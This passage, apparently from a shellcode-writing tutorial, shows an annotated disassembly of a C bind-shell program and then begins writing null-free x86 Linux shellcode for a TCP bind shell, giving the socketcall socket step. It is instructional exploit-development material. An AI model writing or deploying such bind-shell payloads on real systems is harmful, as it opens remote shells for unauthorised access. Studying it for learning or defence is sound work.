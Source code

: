 ```nasm
   ; 0x0 = anvp[]
   ; ---------------------------------------------------------------------------------
   0x004007cc <+223>:	add    esp,0x10
   0x004007cf <+226>:	sub    esp,0xc
   0x004007d2 <+229>:	push   DWORD PTR [ebp-0x24]
   0x004007d5 <+232>:	call   0x400590 <close@plt>
   ; Closes sockfd which tears down the socket
   ; ---------------------------------------------------------------------------------
   0x004007da <+237>:	add    esp,0x10
   0x004007dd <+240>:	mov    eax,0x0
   0x004007e2 <+245>:	mov    edx,DWORD PTR [ebp-0xc]
   0x004007e5 <+248>:	xor    edx,DWORD PTR gs:0x14
   0x004007ec <+255>:	je     0x4007f3 <main+262>
   0x004007ee <+257>:	call   0x400870 <__stack_chk_fail_local>
   0x004007f3 <+262>:	lea    esp,[ebp-0x8]
   0x004007f6 <+265>:	pop    ecx
   0x004007f7 <+266>:	pop    ebx
   0x004007f8 <+267>:	pop    ebp
   0x004007f9 <+268>:	lea    esp,[ecx-0x4]
   0x004007fc <+271>:	ret    
End of assembler dump.
```

NOTE: For the socket calls there are two approaches; using socketcall with sub-functions, or separate system calls for each (socket, accept, bind, etc).  The former is less portable but may allow for cleaner shellcode due to the reuse of the socketcall value.

In this assembly dump it is calling out to the memory address of the function and putting it's parameters to the function on the stack.  In our shellcode we'll use socketcall with parameters in the registers.  Either would work, however.


## Phase 3: Writing shellcode that creates a TCP bind shell
Now that we have an understanding of what is happening at an assembly level behind the scenes we will convert it into usable shellcode.  Things to keep in mind here is that we cannot have any null bytes, size matters, and that the port number should be configurable.

### socket
We start by establishing a socket using socketcall.  This will return to us a sockfd identifier that we will need to save for use in future calls.
```nasm
xor eax, eax        ; zero out eax
mov ebx, eax        ; zero out ebx
push eax            ; push 0 to stack (protocol: 0 (nonblocking))
mov al, 0x66        ; socketcall
mov bl, 1           ; sys_socket
push ebx            ; push 1 to stack (type: SOCK_STREAM)
push 2              ; domain: AF_INET
mov ecx, esp        ; save pointer to stack
int 0x80
```
